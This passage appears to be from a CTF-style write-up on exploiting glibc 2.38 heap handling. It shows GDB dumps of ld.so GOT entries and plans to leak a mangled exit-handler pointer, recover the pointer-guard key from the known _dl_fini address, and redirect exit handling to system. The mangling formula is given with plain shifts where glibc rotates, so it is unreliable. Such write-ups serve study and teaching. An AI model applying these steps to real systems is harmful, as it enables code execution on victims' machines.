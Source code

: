 ```
0x7f13fd22c120 <_dl_signal_exception@got.plt>:  0x7f13fd022220  0x7f13fd14b700
0x7f13fd22c130 <*ABS*@got.plt>: 0x7f13fd1502d0  0x7f13fd022250
0x7f13fd22c140 <*ABS*@got.plt>: 0x7f13fd14f3b0  0x7f13fd14c920
0x7f13fd22c150 <*ABS*@got.plt>: 0x7f13fd150080  0x7f13fd14a730
0x7f13fd22c160 <*ABS*@got.plt>: 0x7f13fd151680  0x7f13fd0222b0
0x7f13fd22c170 <*ABS*@got.plt>: 0x7f13fd14aec0  0x7f13fd0222d0
0x7f13fd22c180 <__tunable_get_val@got.plt>: 0x7f13fd262000  0x7f13fd150a00
0x7f13fd22c190 <*ABS*@got.plt>: 0x7f13fd14b150  0x7f13fd151ae0
0x7f13fd22c1a0 <_dl_catch_exception@got.plt>: 0x7f13fd022320  0x7f13fd14cd50
0x7f13fd22c1b0 <_dl_allocate_tls_init@got.plt>: 0x7f13fd022340  0x7f13fd022350
0x7f13fd22c1c0 <*ABS*@got.plt>: 0x7f13fd16c550  0x7f13fd266340
0x7f13fd22c1d0 <*ABS*@got.plt>: 0x7f13fd14f0e0  0x0
0x7f13fd22c1e0 <__fpu_control>: 0x400000037f  0x22
gef➤  x/10g 0x7f13fd22c1b0
0x7f13fd22c1b0 <_dl_allocate_tls_init@got.plt>: 0x7f13fd022340  0x7f13fd022350
0x7f13fd22c1c0 <*ABS*@got.plt>: 0x7f13fd16c550  0x7f13fd266340
0x7f13fd22c1d0 <*ABS*@got.plt>: 0x7f13fd14f0e0  0x0
0x7f13fd22c1e0 <__fpu_control>: 0x400000037f  0x22
gef➤  vmmap 0x7f13fd266340
[ Legend:  Code | Heap | Stack ]
Start           End             Offset          Perm Path
0x00007f13fd250000 0x00007f13fd276000 0x0000000000001000 r-x /home/guy/glibc-2.38/compiled-2.38/lib/ld-linux-x86-64.so.2
```

We see at `0x7f13fd22c1c8` is a `ld.so` address. Rerunning the binary multiple times, it appears that this address can be relied upon to be there. For allocating the tcache chunk, I will do it at `0x7f13fd22c1b0` (offset of `0x7f13fd22c1b0 - 0x00007f13fd000000 = 0x22c1b0`). This is because the chunk will need to end with a `0x0` due to alignment, and the tcache key clearing. We see that this address that we leak, has an offset of `0x7f13fd266340 - 0x00007f13fd250000 = 0x16340` from the start of the memory region:

So, we can know the `_dl_fini` function address.The good news is, we can always expect the first instruction ptr to be mangled here, to be to `_dl_fini`. Our plan will be to use the address of `_dl_fini`. Because of the Libc ASLR infoleak, we know the address of `system`. The only other thing we need to know is the key used. The formula for ptr mangling/demangling is this, as you will recall:

```
mangled_ins_ptr = ((ins_ptr ^ key) << 0x11)

demangled_ins_ptr = ((mangled_ins_ptr >> 0x11) ^ key)
```

For this, we can allocate a chunk to, and thus leak the data of the first `exit_function_list`, stored at `initial`, pointed to by `__exit_funcs`. This will allow us to leak a `mangled_ins_ptr`, and we know that the demandled instruction ptr is `_dl_fini`, which we know the address of. Thus, we can learn `2` of the three variables. Thus we can figure out the `key` with this equation:

```
key = ((mangled_ins_ptr >> 0x11) ^ demangled_ins_ptr)
```

Which we can see in practice here:
